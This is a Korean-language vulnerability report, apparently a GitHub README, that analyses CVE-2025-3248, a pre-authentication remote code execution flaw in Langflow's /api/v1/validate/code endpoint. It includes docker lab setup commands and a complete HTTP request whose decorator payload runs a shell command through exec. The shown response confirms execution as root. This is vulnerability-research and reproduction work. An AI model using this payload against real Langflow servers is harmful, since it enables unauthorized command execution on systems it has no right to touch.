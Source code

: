 # CVE-2025-3248 Langflow `validate/code` API 인증 우회 원격 코드 실행 취약점 분석 보고서

## 📌 개요

본 보고서는 Langflow 1.2.0 버전 이하에서 발생하는 인증 우회 원격 코드 실행(Remote Code Execution, RCE) 취약점(CVE-2025-3248)에 대해 분석하고, Docker 환경에서 재현(PoC)한 결과를 문서화한 것입니다.

취약점은 `/api/v1/validate/code` 엔드포인트에서 사용자로부터 전달된 Python 코드를 `exec()` 함수를 통해 실행할 때 발생합니다. 함수 정의 시 실행되는 decorator 또는 default argument 표현식을 악용해 인증 없이 임의의 명령어를 실행할 수 있습니다.

---

## 🔍 취약점 정보

| 항목 | 내용 |
|------|------|
| CVE 번호 | CVE-2025-3248 |
| 영향받는 제품 | Langflow < 1.3.0 |
| 취약점 유형 | 인증 우회 원격 코드 실행 (Pre-auth RCE) |
| 취약점 위치 | `/api/v1/validate/code` |
| 심각도 | ★ Critical |
| 공식 패치 | [v1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0) |

---

## ⚙️ 실습 환경 구성

```bash
git clone https://github.com/내아이디/vulhub.git
cd vulhub/langflow/CVE-2025-3248
docker compose up -d

접속 주소: http://localhost:7860

기본 계정: administrator / vulhub

Burp Suite 요청

POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Content-Type: application/json

{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}


응답 결과


{
  "function": {
    "errors": [
      "b'uid=0(root) gid=0(root) groups=0(root)\\n'"
    ]
  }
}
